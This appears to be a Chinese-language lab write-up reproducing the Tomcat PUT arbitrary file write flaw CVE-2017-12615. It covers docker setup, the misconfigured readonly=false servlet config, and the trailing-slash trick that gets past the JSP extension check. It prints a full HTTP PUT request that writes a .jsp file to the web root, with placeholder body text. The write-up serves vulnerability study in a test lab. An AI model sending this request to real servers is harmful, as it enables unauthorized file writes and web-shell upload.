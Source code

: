 # Tomcat PUT方法任意写文件漏洞（CVE-2017-12615）

Tomcat版本：8.5.19

## 环境搭建

```
docker-compose build
docker-compose up -d
```

运行完成后访问`http://your-ip:8080`即可看到Tomcat的Example页面。

## 漏洞原理

漏洞本质Tomcat配置了可写（readonly=false），导致我们可以往服务器写文件：

```
<servlet>
    <servlet-name>default</servlet-name>
    <servlet-class>org.apache.catalina.servlets.DefaultServlet</servlet-class>
    <init-param>
        <param-name>debug</param-name>
        <param-value>0</param-value>
    </init-param>
    <init-param>
        <param-name>listings</param-name>
        <param-value>false</param-value>
    </init-param>
    <init-param>
        <param-name>readonly</param-name>
        <param-value>false</param-value>
    </init-param>
    <load-on-startup>1</load-on-startup>
</servlet>
```

虽然Tomcat对文件后缀有一定检测（不能直接写jsp），但我们使用一些文件系统的特性（如Linux下可用`/`）来绕过了限制。

## 漏洞复现

直接发送以下数据包即可在Web根目录写入shell：

```
PUT /1.jsp/ HTTP/1.1
Host: your-ip:8080
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

shell
```
